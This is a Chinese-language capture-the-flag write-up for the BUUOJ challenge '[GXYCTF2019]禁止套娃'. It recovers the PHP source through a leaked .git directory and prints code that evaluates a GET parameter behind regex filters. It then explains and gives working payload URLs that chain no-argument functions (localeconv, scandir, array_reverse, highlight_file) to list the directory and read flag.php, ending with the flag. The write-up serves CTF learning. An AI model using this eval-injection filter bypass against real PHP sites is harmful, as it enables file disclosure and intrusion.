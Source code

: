 # [GXYCTF2019]禁止套娃

[题目地址](https://buuoj.cn/challenges#[GXYCTF2019]%E7%A6%81%E6%AD%A2%E5%A5%97%E5%A8%83)

这题每一步都是那么恰到好处，差一点都不行。

进入网站，空空如也，就一句话。源代码没东西，直接扫目录，管那么多干啥扫就完事了。扫出来几个.git目录下的文件，那就是.git目录泄漏了。githack恢复网站源码。

```php
<?php
include "flag.php";
echo "flag在哪里呢？<br>";
if(isset($_GET['exp'])){
    if (!preg_match('/data:\/\/|filter:\/\/|php:\/\/|phar:\/\//i', $_GET['exp'])) {
        if(';' === preg_replace('/[a-z,_]+\((?R)?\)/', NULL, $_GET['exp'])) {
            if (!preg_match('/et|na|info|dec|bin|hex|oct|pi|log/i', $_GET['exp'])) {
                // echo $_GET['exp'];
                @eval($_GET['exp']);
            }
            else{
                die("还差一点哦！");
            }
        }
        else{
            die("再好好想想！");
        }
    }
    else{
        die("还想读flag，臭弟弟！");
    }
}
// highlight_file(__FILE__);
?>
```

又是烦人的正则。第一个正则明显是过滤php伪协议的，让你不能直接读flag。第二个正则绕了个圈子，[preg_replace](https://www.runoob.com/php/php-preg_replace.html)返回的是替换后的字符串，这里要求返回的内容完全等同于`;`，那就是说我们的payload必须完全符合`/[a-z,_]+\((?R)?\)/`的格式，还要留个`;`。`[a-z,_]+`应该是全小写字母加上一个`_`可以用，后面的`(?R)?`是一体的，表示php里的[递归匹配](https://www.laruence.com/2011/09/30/2179.html)。整体连在一起表示我们可以`全小写字母_(全小写字母_(全小写字母_(全小写字母_())));`这么无限套下去。

后面又是对exp内容的过滤。过滤了一些输出flag的函数，这样就算我们找到了flag文件，也不能用诸如hex的函数打印出来。很好分析一波后发现我不会，看[wp](https://blog.csdn.net/weixin_44037296/article/details/111404335)。

首要思路是得知flag文件叫什么名字。[scandir](https://www.runoob.com/php/func-directory-scandir.html)可以列出（注意是列出而不是打印出，这个函数会返回列出的结果，因此后面我们还要另一个函数打印出结果）参数指定的目录。有一个麻烦的事情，就给了小写字母和下划线，目录根本没法构造。变不出来`/`，但是大佬们能变出来代表当前目录的`.`。看这个实验：

```php
print_r(localeconv());
```

[localeconv()](https://www.runoob.com/php/func-string-localeconv.html)返回一个包含本地数字及货币格式信息的数组。这和路径有什么关系？本题第一个巧合，这个函数返回的数组第一个元素固定为小数点，也就是`.`。用[current](https://www.runoob.com/php/func-array-current.html)函数正好可以直接取出来。取出来后作为scandir的参数，再用[print_r](https://www.runoob.com/php/php-print_r-function.html)输出，我们就看见了当前目录下的文件。

- http://1e11f2ba-db33-4f59-aa3f-d81eed7ca030.node4.buuoj.cn:81/?exp=print_r(scandir(current(localeconv())));
> Array ( [0] => . [1] => .. [2] => .git [3] => flag.php [4] => index.php )

常规名字。现在读文件又有问题了。能变出来.总不可能变出来flag.php了吧？现在用current函数只能取出`.`，[next](https://www.runoob.com/php/func-array-next.html)函数只能取出`..`，而且这个函数是不能嵌套的。本题第二个巧合，flag文件是倒数第二个。前面说的先next最多取到第二个元素，倒数第二个也算第二个。我们先[array_reverse](https://www.runoob.com/php/func-array-reverse.html)函数将数组倒转，关键这个函数会返回倒转后的数组。倒过来再用刚才提到的方法就能获取到flag.php了。

最后一个难题，怎么输出？题目末尾的注释已经把答案告诉我们了。构造payload。

- http://1e11f2ba-db33-4f59-aa3f-d81eed7ca030.node4.buuoj.cn:81/?exp=highlight_file(next(array_reverse(scandir(current(localeconv())))));

## Flag
> flag{8ca80a85-08ad-4c92-85e0-66b48fa892b8}